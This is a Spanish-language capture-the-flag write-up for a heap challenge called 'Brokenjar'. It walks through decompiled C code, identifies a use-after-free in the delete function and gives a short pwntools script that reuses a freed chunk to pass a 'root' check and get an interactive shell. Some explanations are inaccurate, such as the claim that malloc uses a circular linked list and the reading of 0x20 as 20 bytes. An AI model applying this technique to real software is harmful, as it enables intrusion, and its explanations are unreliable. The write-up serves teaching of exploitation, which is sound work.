

# 8.8 Real 2022 - Brokenjar

Este challenge tiene tres formas de solucionarse, 
pero solo una es valida en caso de que no tengas acceso al binario, y este esté bajo alguna conexion.

Comenzamos ejecutando el binario para ver de que trata. En este caso ilustra un menu con 6 opcines a elegir: \


Al crear un usuario nos pregunta tres cosas, un index, un amaño y un username.
El index es para crear una lista de varios usuarios, cada uno con sus contraseñas pertenecientes, el username no es mas que un string simple, pero pedir el tamaño es algo sospechoso.


Si deduciste bien puedes intuir que el tamaño es la cantidad de bytes que pasaran de tu string username a la memoria, ojo con esto.

Hagamos un poco de ingeneria reversa, veamos que hay en el main:
```

void main(void)

{
  long in_FS_OFFSET;
  int option;
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  do {
    option = 0;
    puts("U-jar");
    puts("1. add user");
    puts("2. add password");
    puts("3. read users and passwords");
    puts("4. delete users and passwords");
    puts("5. superb admin login");
    puts("6. exit");
    printf(">>> ");
    scanf("%d",&option);
    switch(option) {
    case 1:
      add_user();
      break;
    case 2:
      add_password();
      break;
    case 3:
      show_everything();
      break;
    case 4:
      delete_user_and_password();
      break;
    case 5:
      superb_admin();
      break;
    case 6:
      puts("goodbye");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  } while( true );
}


```

Muy probablemente no te aparecera al 100% de como aparece ahi, ya que cambié algunas instrucciones para que fuera mas legible.

Nos damos cuenta que tenemos un switch-case que se dirigue a otras funciones, segun la opcion del usuario. Veamos que tiene la función ```add_user()```

## add_user()


```
void add_user(void)

{
  uint uVar1;
  int is_equal;
  char *pcVar2;
  long in_FS_OFFSET;
  uint idx_candidate;
  uint size;
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  if (index_space < 5) {
    puts("idx:");
    scanf("%1u",&idx_candidate);
    puts("size: ");
    scanf("%4u",&size);
    uVar1 = idx_candidate;
    if (idx_candidate < 5) {
      if (0x20 < size) {
        puts("size must below or equal to 0x20");
                    /* WARNING: Subroutine does not return */
        exit(0);
      }
      pcVar2 = (char *)malloc((ulong)size);
      buffer[uVar1].username = pcVar2;
      buffer[idx_candidate].size_user = (ulong)size;
      printf("username: ");
      read(0,buffer[idx_candidate].username,buffer[idx_candidate].size_user);
      is_equal = strcmp(buffer[idx_candidate].username,"root");
      if (is_equal == 0) {
        puts("hehe not allowed");
                    /* WARNING: Subroutine does not return */
        exit(0);
      }
      index_space = index_space + 1;
      puts("added user");
    }
    else {
      puts("index must be smaller or equal to 4");
    }
  }
  else {
    puts("no more data please");
  }
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Esta funcion pide que el index del username (```idx_cantidate```) no sea mayor a 5 o que tampoco tenga mas de 20 caracteres (20 bytes) de largo. Posterior a eso, guarda el string segun la cantidad de bytes dados por el usuario. \
Mas abajo tenemos algo interesante ya que se la funcion strcmp para comparar el string dado por el usuario con otro que dice "root", en caso de que estos sean iguales se retornaria 0, para luego llamar un syscall de exit en caso de que esto sea asi. \
Podemos deducir que el string "root" es importante para este challenge, pero sigamos viendo que mas hay en el binario. 

Ahora veamos el codigo de ```add_password()```
## add_password()
Se te das cuenta el codigo de ```add_password()``` es identico al de ```add_user()``` con la importante diferencia que este no cuenta con un strcmp que llame un exit en caso de que el string sea "root", esto tambien es importante.


Veamos ```delete_user_and_password()``` 
## delete_user_and_password()

```
void delete_user_and_password(void)

{
  long in_FS_OFFSET;
  uint candidate;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("idx: ");
  scanf("%1u",&candidate);
  if (candidate < 5) {
    buffer[candidate].size_pass = 0;
    buffer[candidate].size_user = 0;
    free(buffer[candidate].username);
    free(buffer[candidate].password);
    puts("user deleted");
    index_space = index_space + -1;
  }
  else {
    puts("index must be smaller or equal to 9");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Este codigo es el mas importante de todos, ya que aqui reside el bug. Si te diste cuenta en el codigo previo, los strings son almacenados en el Heap y no en el Stack, esto lo sabemos porque se usa la funcion ```malloc()``` para el almacenamiento. En esta funcion, dicho bloque de memoria es liberado con la funcion ```free()```, pero no de la mejor manera.

## Ataque user-after-free.
Expliquemos algo de ciencias computacionales. La funcion ```malloc()```, como explique mas arriba, es encargada de asignar espacio dinamico en la memoria Heap, lo interesante radica en que malloc usa la estructura de datos **circular linked list**, por ende, si tenemos dos datos dentro de la lista, y queremos eliminar el index 0, el que lo sigue pasaria al index que fue eliminado.

```
INDEX:
    0             1
   ____         ____ 
  |hola|   |--→|root|
  |----|   |   |----|
  |____|---|   |____|---|
    ↑                   |
    ---------------------

    0 
   ____ 
  |root|
  |----|
  |____|
```

## Exploit
Teniendo en cuenta esto, podemos hacer lo siguiente:
 - Crear un usuario en el index 0, con 4 bytes y escribir 4 caracteres de forma random, en mi caso le pondre "hola", 
 - Creamos una contraseña con exactamente los mismos valores, index 0, 4 bytes, pero con "root" en el string.
 - Eliminamos el usuario con la opcion 4.
 - Ejecutamos la opcion 5 y ya tendriamos el pwn.

El exploit es el siguiente:

```
from pwn import *

target = process("./brokenjar")

"""
Allocating 4 bytes with a string "toor". The string could be 
whatever as long as it has 4 bytes (4 chars).
"""
target.sendline("1")
target.sendline("0")
target.sendline("4")
target.sendline("toor")

"""
User after free is in this section.
"""
target.sendline("4")
target.sendline("0")

"""
Let's create a password with "root" as string into the index 0
"""
target.sendline("2")
target.sendline("0")
target.sendline("4")
target.sendline("root")

"""
Pwned
"""
target.sendline("5")
target.interactive()
```

En estes caso no hay flag porque solo tenemos al binario y no a la maquina oficial.